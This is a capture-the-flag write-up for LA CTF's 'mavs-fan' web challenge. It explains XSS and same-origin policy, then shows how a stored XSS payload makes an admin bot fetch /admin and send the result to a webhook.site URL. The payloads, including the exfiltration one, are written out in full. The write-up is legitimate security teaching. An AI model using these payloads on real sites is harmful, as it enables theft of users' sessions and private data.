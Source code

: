 # LA CTF: web/mavs-fan

## Background Information: XSS

### What is XSS?

XSS is a vulnerability that allows attackers to compromise the interactions between users and a vulnerable application
This happens because an attacker will find a way around the same origin policy (SOP).

### What is SOP?

A site’s origin is a combination of its protocol (like http, https, etc.), hostname/domain (like google.com), and port of the URL accessing it. (src) If two websites have all of these same aspects, then they are said to have the same origin.
        
Two websites can have the same origin even if they have different file paths: http://example.com/app1/index.html versus http://example.com/app2/index.html

Even if port numbers are not stated explicitly, using a protocol’s default port number can help identify if two websites have the same origin: http://example.com:80 versus http://example.com

When browsing, the browser loads data from many different websites that are likely to all come from different origins. The same origin policy prevents one website from reading the resources of a website from a different origin. 

A type of vulnerability that is related to this is clickjacking using iframes. This vulnerability will not be covered here.

So, a website won’t read resources from a website with a different origin. However, when we inject our malicious XSS script, the script runs as the same origin as the website we are injecting it into. Therefore, the browser will execute this malicious script because it sees it as from the same origin as the website it’s being inserted into. 

### What is the malicious thing we are injecting? And where are we injecting it?

The thing that will be injected is a piece of malicious JavaScript code. You can inject it wherever the website will take in input. (src)
Below there is an example of a simple way to detect if a XSS attack is possible.

### What can our malicious script do?
Our malicious script can do many things, but most of the time it will be revealing sensitive information on the victim user’s browser. For example, XSS can access the following data:
- Keystrokes 
- Redirection to malicious websites
- Cookie information: Cookies can contain information that an attacker can use to impersonate a user after a browsing session. For this CTF, we just need to know that we can get cookies information from XSS.
- Other web browser exploits

Side-note here: the script we are talking about can be very short. Most are only a couple of lines long.

Types of XSS:
- Stored/Persistent XSS: The malicious script will be saved in the website’s database. Example: a website has a place where users can post messages. A user can input a malicious script in place of a message. This message will get saved in the site’s database. When others see this person’s message on the website, the script will be executed.
- Reflected XSS: The malicious script will most likely be in a site’s URL. When others visit this website, the script will be executed. Example: https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
- DOM-based XSS 

### How to see if a website is vulnerable to XSS

Try inserting basic JavaScript and seeing if you get a response. The most popular is: <script>alert('testing for XSS…')</script>

### How to prevent XSS
- Filter input
- Encode data when it’s being outputted
- For HTTP responses, use the correct response headers
- For cookies, use HttpOnly: Recall that cookies can be accessed by using JavaScript in an XSS attack. Most web browsers don’t need to access cookies via JavaScript. Therefore, to protect cookies, you can use the HttpOnly flag to tell the browser to access the cookie through HTTP only. The HttpOnly flag is included in the HTTP response header: Set-Cookie: sessionid=QmFieWxvbiA1; HttpOnly

## Context & Vulnerability

We are provided a website where users can write and post messages. We are also given an “Admin Bot” where we may input a URL to the post that we made, and the Admin Bot will visit the post. 

In the challenge description, we are told that “the admin cookie is HttpOnly”. 

Therefore, due to the setup where we can input a message and send a URL to the admin bot, plus the HttpOnly hint, this leads us to believe that our vulnerability will be cross-site scripting (XSS).

## Exploitation

We navigate to the page where we can input a message.

First we will try the classic XSS input to see if we can get execution through this area: <script>alert('testing for XSS…')</script>

We do not get an alert pop-up. Before, trying other payloads, let’s see how the HTML of the site looks after inputting the script:

The script got embedded into a div, and therefore it won’t execute. We may search for another payload that won’t just get lost in the HTML. Online, we find HTML-specific payloads which we can try. The first one: <img/src=x a='' onerror=alert(1)>

Indeed, when entered and submitted we got an alert pop-up and image saved.

As a comparison, we may also see what the HTML looks like. The HTML was actually embedded to execute the script. We also see Firefox’s addition of the “event”.
So now that we know we can achieve XSS, we need to see what we may enter to get our flag. Let’s see the file’s script app.js, which was given in the challenge’s zip file. We see the following lines that are of interest:

	app.get('/admin', (req, res) => {
    	if (!req.cookies.secret || req.cookies.secret !== ADMIN_SECRET) {
        		return res.redirect("/");
   	 	}
    	return res.json({ trade_plan: FLAG });
	});



This script tells us that if we go to the /admin path, we may get the flag only if this special cookie is enabled. If we don’t have this secret cookie, or if the cookies is not named ADMIN_SECRET, then we are redirected to the standard front page of the site. If we do meet these cookie requirements, then we get the flag. Thus, our goal now is to somehow meet these cookie requirements.

Recall our hint: “the admin cookie is HttpOnly”. This means we may not use JavaScript to access our cookie. And since we are on client-side, we may not access the cookie. Thus, we need to get our cookie data server-side.

Here are steps our XSS payload may follow to get our cookie:
1. Do something to trigger an error
2. When that error is triggered, deal with it by trying to visit /admin
3. Capture the response from visiting /admin
4. Because that response has valuable information that we can’t access (our admin cookies), send that data somewhere we could access it. One place we may send it is our own site. Webhooks may provide us with a website to do this with. Or, if running the site locally (localhost), then ngrok can work.
5. Once we send the data to our Webhooks site, we should see the cookie data there, which will give us our flag.

In JavaScript, our payload will look something like this (this is the specific solution provided by LA CTF):

	<img src="x" onerror="fetch('/admin').then(response => response.json()).then(data => {fetch('https://webhook.site/[custom_webhook_url]?data=' + encodeURIComponent(JSON.stringify(data)));});"/>

We may try to enter this into the message posting part of the website. We insert our malicious script successfully.

Now we may play the victim in the XSS scenario and visit the URL that the post gave us by inserting it into the admin bot. Then on our server we will see the flag.


## Remediation

One easy way to patch this kind of error is to sanitize input. You should make sure that whatever message is entered doesn’t include inputs like <>, for example.

# Sources/Credits

Written by Madalina Stoicov

- https://developer.mozilla.org/en-US/docs/Glossary/Origin
- https://web.dev/articles/same-origin-policy
- https://portswigger.net/web-security/cross-site-scripting#what-is-cross-site-scripting-xss
- https://www.veracode.com/security/xss/
- https://www.wiz.io/academy/cross-site-scripting-xss
- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
- https://www.invicti.com/learn/stored-xss-persistent-cross-site-scripting/
- https://owasp.org/www-community/attacks/Cross_Site_Tracing
- https://www.acunetix.com/blog/web-security-zone/httponly-flag-protecting-cookies/



